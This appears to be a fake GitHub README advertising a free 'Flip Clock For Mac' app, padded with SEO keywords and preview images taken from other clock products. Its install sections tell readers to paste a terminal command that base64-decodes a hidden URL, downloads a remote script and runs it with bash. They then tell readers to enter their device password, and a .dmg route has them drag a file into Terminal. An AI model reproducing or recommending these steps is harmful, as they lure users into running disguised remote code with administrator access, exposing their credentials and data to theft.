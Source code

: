 # Flip Clock For Mac — Download For Mac OS
![logo](https://images.dwncdn.net/images/t_app-icon-l/p/821cef70-6024-4a79-8988-aad72aa240ff/1942521431/2257_4-77556427-imgingest-8604099810554694302.png)

Flip Clock For Mac is a sleek, minimalist desktop clock application designed for macOS, offering a stylish way to keep track of time. Follow the instructions below to install it effortlessly on your Mac. 🕒

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/flipclock)

If you encounter issues downloading via the button above, follow the terminal-based installation instructions below.

## 📦 How to Install Flip Clock For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🕒 **Elegant Time Display**: A retro-inspired flip clock design that enhances your desktop aesthetic.
- ⚙️ **Customizable Settings**: Adjust clock themes, colors, and formats (12/24-hour) to suit your style.
- 📅 **Date Integration**: Displays date alongside time for quick reference.
- 🔇 **Silent Operation**: Runs smoothly without distracting sounds or notifications.
- 🚀 **Lightweight Performance**: Minimal resource usage for seamless operation on macOS.
- 🌙 **Night Mode**: Automatically adjusts brightness for comfortable viewing in low-light conditions.

---

## About Flip Clock For Mac

Flip Clock For Mac is a beautifully designed desktop application that brings a retro flip clock experience to modern macOS systems. With its clean interface and smooth animations, it offers a refreshing alternative to standard digital clocks. Whether you're a productivity enthusiast or simply love aesthetic desktop enhancements, this free app is perfect for adding a touch of elegance to your workspace. Its lightweight design ensures it runs efficiently, making it an ideal choice for users searching for a *free mac clock app* or *desktop clock for mac*.

The application is built with macOS compatibility in mind, supporting the latest versions of the operating system. Users can easily install Flip Clock For Mac using either a .dmg file or a simple terminal command, ensuring accessibility for both novice and advanced users. The app is optimized for *macOS time management tools*, providing a reliable and visually appealing way to keep track of time without cluttering your desktop. Its open-source nature allows developers to contribute, ensuring continuous improvements and updates.

Customization is at the heart of Flip Clock For Mac. Users can personalize the clock’s appearance with various themes, including light and dark modes, to match their macOS environment. The *retro clock for mac* design is inspired by classic flip clocks, offering a nostalgic yet modern experience. Whether you’re looking for a *minimalist mac clock* or a stylish timekeeping solution, this app delivers both functionality and charm.

One of the standout features is its seamless integration with macOS. The app supports *mac desktop widgets* functionality, allowing you to place the clock anywhere on your screen for quick access. It also includes a date display, making it a practical tool for users who need both time and date at a glance. For those searching for *free mac desktop apps*, Flip Clock For Mac is a top choice due to its ease of use and visually appealing design.

### Why Choose Flip Clock For Mac?

Flip Clock For Mac stands out among other *macOS clock apps* due to its combination of style, functionality, and ease of installation. Unlike many desktop clock applications, it’s completely free, open-source, and optimized for performance. Its *customizable mac clock* features allow users to tailor the experience to their preferences, while its lightweight footprint ensures it won’t slow down your system. Whether you’re a student, professional, or casual user, this app provides a reliable and attractive solution for *time management on mac*.

---

## 🖼 Preview

![Flip Clock Main Interface](https://fliqlo.com/images/ogp.png)  
*Retro-inspired flip clock design with a sleek, modern look.*

![Customization Options](https://fliqlo.com/images/mobileapp.jpg)  
*Adjust themes and settings to personalize your clock experience.*

![Night Mode](https://flipclock.app/blog/blog_images/blog1_images/blog1_header_image.png)  
*Night mode for comfortable viewing in low-light environments.*

---

## 🔍 Tags

flip clock, flip clock for mac, free mac clock app, desktop clock for mac, flip clock download, flip clock free, flip clock free download, download flip clock, free flip clock, flip clock for mac, mac flip clock, flip clock software mac
